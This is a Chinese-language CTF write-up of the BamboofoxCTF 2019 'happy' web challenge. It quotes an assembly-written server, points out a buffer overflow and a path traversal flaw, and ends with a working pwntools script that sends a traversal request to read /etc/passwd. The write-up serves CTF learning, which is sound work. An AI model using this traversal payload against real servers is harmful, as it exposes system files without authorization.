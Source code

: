 BamboofoxCTF 2019 - [web] happy
===
- [Description](#Description)
    - [Vulnerability](#Vulnerability)
- [Reference](#Reference)

# Description
這題隊友 [Frank Lin](https://github.com/eee4017) 搞出了一包 `server.zip`，裡面是這台 server 的 code，用組語寫的就是潮

## Vulnerability
```asm
read_req_path:

    enter 1000, 0

read_req_path_start:

    mov rax, 0          ; sys_read
    mov rdi, [sockfd]   ; read from client
    lea rsi, [rbp-1000]   ; store in req_path
    mov rdx, 1024       ; read only 1 line (<=1 KB)
    syscall             ; Buffer Overflow?
    
    cmp rax, 0          ; handle EOF
    je read_req_path_exception

    mov rdi, req_GET    ; "GET" in memory
    lea rsi, [rbp-1000]
    mov rdx, 4          ; compare 4 chars
    call strncmp
    cmp rax, 0          ; read again if not match
    jne read_req_path_start ; 前面可以塞垃圾再 GET

    mov byte [req_path], '.' ; prefix . ; 0x600a95

    ; 先直接將 GET 之後的 128 bytes 拿到 req_path
    mov rcx, 127        ; mov 128 bytes path to req_path
    lea rsi, [rbp-1000+4] ; skip "GET "
    mov rdi, req_path+1 ; skip .
    rep movsb

    ; 再用空白截斷路徑
    mov rcx, 127        ; max 127 bytes
    mov al, 32          ; space
    mov rdi, req_path
    repne scasb

    mov rdx, 126
    xchg rcx, rdx
    sub rcx, rdx        ; rcx is path length

    mov byte [rcx+req_path], 0  ; append null

    mov rax, 0          ; return success
    leave
    ret
```

- 第一個 syscall 存在 buffer overflow
- 這裡的邏輯處理完後，req_path 會長這樣
    - `'.'` + `'GET '`之後的 128 bytes 字串(第一個空格之後的字元會變成 null byte)

然後 call 這個
```asm
open_req_file:
    mov rax, 2          ; sys_open
    mov rdi, req_path   ; skip '/' <- root
    mov rsi, 0          ; O_RDONLY (read only)
    syscall
    mov [file_fd], rax  ; save file descriptor to file_fd
    ret
```

oh wow 任意讀檔案

剩下就看 exploit ㄅ

注意 payload 最後的空格是必要的

不然就變成讀 `../../../../../../../../../../../../etc/passwd\r\nblablabla`，而這檔案很明顯不存在
```python
#!/usr/bin/python3
from pwn import *

context.arch = 'amd64'

p = process('./server.out')
r = remote('localhost', 8888)

payload = b'GET ./../../../../../../../../../../../etc/passwd \r\n'

r.send(payload)

r.interactive()
p.close()
```


# Reference
NULL

###### tags: `CTF`